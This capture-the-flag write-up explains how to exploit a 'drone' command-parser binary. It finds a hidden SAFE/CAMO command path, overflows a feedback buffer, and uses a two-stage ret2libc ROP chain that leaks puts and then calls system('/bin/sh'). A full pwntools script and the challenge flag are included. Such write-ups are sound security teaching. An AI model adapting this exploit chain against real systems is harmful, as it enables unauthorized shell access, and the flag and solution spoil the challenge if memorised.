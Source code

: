 ### Intro
This challenge is a text-based adventure where the user inputs commands to control a drone. While most of these commands have input checks, a sequence of commands will allow the user to access a "deprecated" input feature. This input can be exploited to achieve a buffer overflow, conduct a Return to Libc (Ret2Libc) attack, and execute a shell.

### Finding Commands
The `drone.bin` binary does not give any indication of what the valid commands are, but they can be discovered using `strings`. This also reveals command parameters as well as some indication of what the commands do.
```
<<< Performing %s scan...
Sonar
Radar
Depth
Enter command verb >>> 
Enter command params >>> 
<<< Collecting a sample of %d grams...
<<< Moving %c for %d meters...
<<< Moving arm to position %d..., Current Setting: %d
<<< Entering Diagnostic Mode, arm increased by more than 10.
Please leave your spacesec contact so we can replicate the fault >>> 
<<< Turning the rover by %.2f degrees...
<<< Did not get reason for stopping
Enter reason for stopping >>> 
<<< Rover stopped due to: %s
<<< Recording video for %d seconds...
Disengaging
Engaging
<<< %s the brakes...
<<< Error saving file.
<<< Saved file: %s
Enter filename for the recording >>> 
<<< Warning, did you mean to save with %s extension
Temperature
Humidity
<<< Activating %s sensor...
Pressure
<<< Bug report submitted.
<<< Setting safety mode to %s...
Disabled
Enabled
Leave feedback comments for the developers >>> 
<<< Feedback only available in unSAFE state
<<< Warning: uppercase letters not permitted on SIGN
Re-enter message >>> 
Char[%i]: %c
<<< Displaying message on sign: %s
<<< Setting light intensity to level %c...
<<< %s the claw...
Closing
Opening
Enter resolution (e.g., 720, 1080) >>> 
<<< Camera mode set to %c with resolution %d...
MOVE
BRKS
SCAN
Enter terrain type (e.g., rocky, sandy) >>> 
<<< Moving over %s terrain...
RECD
<<< Invalid sensor type for SENS. Must be 'T', 'H', or 'P'.
<<< Invalid duration for RECD. Must be between 1 and 300 seconds.
LIGH
<<< Turning %c by %.2f degrees...
ARMX
<<< Invalid frequency for TRNS. Must be between 1.0 and 100.0 MHz.
<<< Invalid module for DEPL. Must be 'A', 'B', 'C', or 'D'.
<<< Invalid value for CLAW. Must be 'O' (Open) or 'C' (Close).
<<< Sample size must be an integer not float.
<<< Submitting bug report, attempting to continue
<<< Invalid sample size for SAMP. Must be between 1 and 500 grams.
SIGN
<<< Invalid position for ARMX. Input must be between 1 and 10.
TRNS
<<< Invalid scan type for SCAN. Must be 'R', 'S', or 'D'.
<<< Invalid state for SAFE. Must be 'Y' (Yes) or 'N' (No).
CAMO
<<< Both open and close not permitted simultaneously
Submit bug report (Y|N) >>> 
STOP
<<< Invalid parameters for MOVE. Direction must be 'F' or 'B', and distance must be between 1 and 1000 meters.
Enter light mode (e.g., steady, blinking) >>> 
<<< Light set to %s mode at intensity level %c...
<<< Multi-Mode camera no longer supported, leave feedback if your team needs it.
SAFE
<<< Unknown command: %s
<<< Invalid value for BRKS. You entered %s Must be 'E' (Engage) or 'D' (Disengage).
<<< Submitting bug report
SAMP
<<< Invalid intensity for LIGH. Must be between '1' and '5'.
<<< Invalid mode for CAMO. Must be 'N', 'I', or 'T'.
SENS
<<< Invalid angle for TURN. Must be between -180 and 180 degrees.
DEPL
Enter turn direction (L for left, R for right) >>> 
TURN
CLAW
```

### Decompilation and Analysis
There is no symbol for `main`, but an entry point can be found using Ghidra, which leads to this function which handles command input:

![commands](drone_commands.png)

Only a segment of this function is shown, but the function generally compares user input to a command code (MOVE, STOP, SCAN, etc) and executes code corresponding to that command, which usually involves printing out some flavor text.

Most of the commands are unimportant, but the code for CAMO includes a call to a `deprecated_feedback` function, which is of interest:

![camo](drone_camo.png)

`deprecated_feedback`:

![deprecated](drone_deprecated.png)

This function has a `read` call to a buffer - a good target for buffer overflow. However, the "drone"/program must be in unSAFE mode.

Therefore, the correct command sequence is SAFE to turn off safe mode, and then CAMO to access the unsafe feedback input.

![setup](drone_setup.png)

### Buffer Overflow + Ret2Libc
The idea is to use Libc to execute a shell using the Libc function `system` and its `/bin/sh` string. To get a Libc address, overflow the buffer to pass the address of `puts` GOT entry to `puts` itself, which prints out the runtime address of `puts`.

Since this involves "calling" `puts`, ROP gadgets can be used to set the values of register rdi to properly pass the GOT entry as an argument into `puts`.

First Buffer Overflow:
```
input_buf: padding (pppppppp)
...
input_buf+0x108:  rdi gadget
input_buf+0x110: puts GOT entry address
input_buf+0x118: puts PLT entry address (will call puts)
input_buf+0x120: deprecated_feedback (to setup up a second buffer overflow)
```

After the runtime address of `puts` is calculated, the addresses of `system` and `/bin/sh` can easily be calculated using known Libc offsets from `puts`. Use ROP gadgets to set up a second buffer overflow to execute a shell.

Second Buffer Overflow:
```
input_buf: padding (pppppppp)
...
input_buf+0x108:  rdi gadget
input_buf+0x110: /bin/sh address
input_buf+0x118: ret gadget (for stack alignment)
input_buf+0x120: system() address
```

Overall Script:
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./drone.bin')
func = p64(elf.symbols['deprecated_feedback'])
rop = ROP(elf)
pop_rdi = p64(rop.rdi.address)
pop_rdx = p64(rop.rdx.address)
ret_gadget = p64(rop.ret.address)
read_got = p64(elf.got['read'])
atoi_got = p64(elf.got['printf'])
padding = b'p' * 264

p = remote('2024.sunshinectf.games', 24004)
puts_got = p64(elf.got['puts'])
puts_plt = p64(elf.plt['puts'])
# setup
p.recvuntil(b'>>> ')
p.sendline(b'SAFE')
p.recvuntil(b'>>> ')
p.sendline(b'N')
p.recvuntil(b'>>> ')
p.sendline(b'CAMO')
p.recvuntil(b'>>> ')
p.sendline(b'N')
p.recvuntil(b'>>> ')
# first pass
payload = b''.join([padding, pop_rdi, puts_got, puts_plt, func])
p.sendline(payload)
leaked = p.recvline()[:6]
puts_addr = u64(b''.join([leaked, b'\x00\x00']))
#print(hex(puts_addr))
# second pass
system_addr = p64(puts_addr - 0x87bd0 + 0x58740) # use libc addrs
binsh_addr = p64(next(elf.search(b'/bin/sh\0')))
payload = b''.join([padding, pop_rdi, binsh_addr, ret_gadget, system_addr])
p.recvuntil(b'>>> ')
p.sendline(payload)
p.interactive()
```

Launching the exploit:

![win](drone_win.png)

### Flag
sun{drone_Pilot3d_rhrough_th3_cloud5}
